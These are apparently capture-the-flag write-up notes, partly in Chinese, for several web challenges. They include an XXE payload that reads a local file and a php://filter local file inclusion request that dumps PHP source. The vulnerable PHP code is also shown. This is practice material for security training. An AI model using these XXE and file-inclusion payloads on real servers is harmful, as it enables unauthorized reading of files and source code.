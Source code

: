 https://blog.csdn.net/qq_40519543/article/details/107224099

## [NCTF2019]Fake XML cookbook

payload

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY xxe SYSTEM "file:///flag">
  ]>

<user><username>&xxe;</username><password>1234656</password></user>
```

## [ASIS 2019]Unicorn shop

https://www.cnblogs.com/Cl0ud/p/12221360.html

## [BJDCTF2020]Cookie is so stable

https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig

## [BSidesCF 2020]Had a bad day

```
?category=meowers%27
```

报错，文件包含

```
Warning: include(meowers'.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37

Warning: include(): Failed opening 'meowers'.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37
```

伪协议读取源文件

```
 /index.php?category=php://filter/read=convert.base64-encode/resource=index
```



```php
<?php
$file = $_GET['category'];
if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
